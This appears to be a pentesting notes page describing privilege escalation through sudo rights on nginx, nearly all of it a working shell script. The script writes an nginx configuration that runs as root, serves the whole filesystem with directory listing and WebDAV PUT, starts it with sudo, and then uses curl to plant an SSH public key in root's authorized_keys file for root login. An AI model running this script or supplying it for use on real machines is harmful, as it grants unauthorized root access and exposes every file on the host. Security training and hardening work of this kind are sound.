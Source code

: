 If we have sudo rights to run nginx, we can set up our own web server and set up various vulnerable parameters or methods, and we can also just allow read access to the entire file system.

```
#!/bin/sh
echo "[+] Creating configuration..."
cat << EOF > /tmp/nginx_pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;  # This makes the server listen on port 1339
	        root /;  # allow to read all system files
	        autoindex on;  # allows us to move around directories.
	        dav_methods PUT;  # this methods allows us to put file in the system.
	}
}
EOF
echo "[+] Loading configuration..."
sudo nginx -c /tmp/nginx_pwn.conf
echo "[+] Generating SSH Key..."
ssh-keygen
echo "[+] Display SSH Private Key for copy..."
cat .ssh/id_rsa
echo "[+] Add key to root user..."
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
echo "[+] Use the SSH key to get access"
```